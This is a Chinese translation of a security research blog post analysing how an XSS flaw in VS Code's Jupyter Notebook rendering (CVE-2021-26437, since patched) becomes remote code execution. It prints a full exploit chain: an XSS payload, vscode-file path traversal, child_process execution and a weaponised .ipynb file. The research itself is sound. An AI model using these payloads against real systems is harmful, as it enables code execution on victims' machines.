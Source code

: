 ```yaml
---
date: 2025-08-06T03:01:42+08:00
title: Visual Studio Code Jupyter Notebook远程代码执行漏洞分析
tags: [漏洞挖掘, RCE, Electron安全, VSCode]
authors: qife
description: 本文详细分析了Visual Studio Code Jupyter Notebook扩展中的XSS漏洞如何通过路径遍历和Electron特性升级为RCE漏洞，并提供了完整的漏洞利用链构建过程。
---
```


## Visual Studio Code Jupyter Notebook RCE

2022年10月27日 - Luca Carettoni

我利用上周末的几个小时研究了Justin Steven于2021年8月发现的Visual Studio Code .ipynb Jupyter Notebook漏洞利用方法。

Justin发现了一个影响VSCode内置Jupyter Notebook(.ipynb)文件支持的跨站脚本(XSS)漏洞：

```json
{
  "cells": [
    {
      "cell_type": "code",
      "execution_count": null,
      "source": [],
      "outputs": [
        {
          "output_type": "display_data",
          "data": {"text/markdown": "<img src=x onerror='console.log(1)'>"}
        }
      ]
    }
  ]
}
```

他的分析详细说明了该问题并展示了一个从磁盘读取任意文件然后将其内容泄露到远程服务器的概念验证，但这并非完整的RCE利用。

虽然我无法找到利用此XSS原语实现任意代码执行的方法，但更擅长Electron漏洞利用的人或许能够做到。[...]

鉴于我们对ElectronJs（以及许多其他Web技术）的关注，我决定研究潜在的利用途径。

### 漏洞利用分析

首先，我查看了应用程序的整体设计，以识别由VSCode使用的每个BrowserWindow/BrowserView/Webview的配置。通过ElectroNG可以观察到，该应用程序使用了一个启用了nodeIntegration的BrowserWindow。

这个BrowserWindow使用vscode-file协议加载内容，该协议类似于file协议。不幸的是，我们的注入发生在嵌套的沙盒iframe中，如下图所示：

[沙盒iframe结构示意图]

具体来说，我们的沙盒iframe使用以下属性创建：
`allow-scripts allow-same-origin allow-forms allow-pointer-lock allow-downloads`

默认情况下，sandbox会使浏览器将iframe视为来自另一个源，即使其src指向同一站点。由于allow-same-origin属性，这个限制被解除。只要webview中加载的内容也托管在本地文件系统（在应用程序文件夹内），我们就可以访问顶层窗口。这样，我们可以简单地使用类似`top.require('child_process').exec('open /System/Applications/Calculator.app')`的代码执行命令。

### 漏洞利用构建

那么，我们如何将任意HTML/JS内容放入应用程序安装文件夹中？或者，我们能否引用该文件夹外的资源？

答案来自我在Black Hat USA 2022简报会上看到的一个演示。在利用CVE-2021-43908时，TheGrandPew和s1r1us使用路径遍历来加载VSCode安装路径之外的任意文件：
`vscode-file://vscode-app/Applications/Visual Studio Code.app/Contents/Resources/app/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F/somefile.html`

类似地，我们可以尝试利用postMessage的回复来泄露当前用户目录的路径。实际上，我们的有效载荷可以放在恶意仓库中，与触发XSS的Jupyter Notebook文件一起。

经过几个小时的尝试，我发现可以通过在onload事件期间强制执行来获取触发XSS的img标签的引用。

### 最终漏洞利用

将所有要素准备好后，我最终组装了完整的漏洞利用代码：

```javascript
var apploc = '/Applications/Visual Studio Code.app/Contents/Resources/app/'.replace(/ /g, '%20');
var repoloc;
window.top.frames[0].onmessage = event => {
    if(event.data.args.contents && event.data.args.contents.includes('<base href')){  
        var leakloc = event.data.args.contents.match('<base href=\"(.*)\"')[1];
        var repoloc = leakloc.replace('https://file%2B.vscode-resource.vscode-webview.net','vscode-file://vscode-app'+apploc+'..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..');
        setTimeout(async()=>console.log(repoloc+'poc.html'), 3000)
        location.href=repoloc+'poc.html';
    }
};
window.top.postMessage({target: window.location.href.split('/')[2],channel: 'do-reload'}, '*');
```

为了在.ipynb文件中传递这个有效载荷，我们还需要克服最后一个限制：当前实现会导致JSON格式错误。注入发生在JSON文件（双引号）中，我们的Javascript有效载荷包含引号字符串以及用作正则表达式分隔符的双引号。

经过一些调整，最简单的解决方案是使用反引号`字符代替所有JS字符串的引号。最终的pocimg.ipynb文件如下：

```json
{
  "cells": [
    {
      "cell_type": "code",
      "execution_count": null,
      "source": [],
      "outputs": [
        {
          "output_type": "display_data",
          "data": {"text/markdown": "<img src='a445fff1d9fd4f3fb97b75202282c992.png' onload='var apploc = `/Applications/Visual Studio Code.app/Contents/Resources/app/`.replace(/ /g, `%20`);var repoloc;window.top.frames[0].onmessage = event => {if(event.data.args.contents && event.data.args.contents.includes(`<base href`)){var leakloc = event.data.args.contents.match(`<base href=\"(.*)\"`)[1];var repoloc = leakloc.replace(`https://file%2B.vscode-resource.vscode-webview.net`,`vscode-file://vscode-app`+apploc+`..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..`);setTimeout(async()=>console.log(repoloc+`poc.html`), 3000);location.href=repoloc+`poc.html`;}};window.top.postMessage({target: window.location.href.split(`/`)[2],channel: `do-reload`}, `*`);'>"}
        }
      ]
    }
  ]
}
```

通过打开包含此文件的恶意仓库，我们最终可以触发代码执行。

### 补充说明

内置的Jupyter Notebook扩展选择退出了Visual Studio Code 1.57中引入的工作区信任保护功能，因此不需要进一步的用户交互。需要说明的是，此问题已在VScode 1.59.1中修复，Microsoft为其分配了CVE-2021-26437。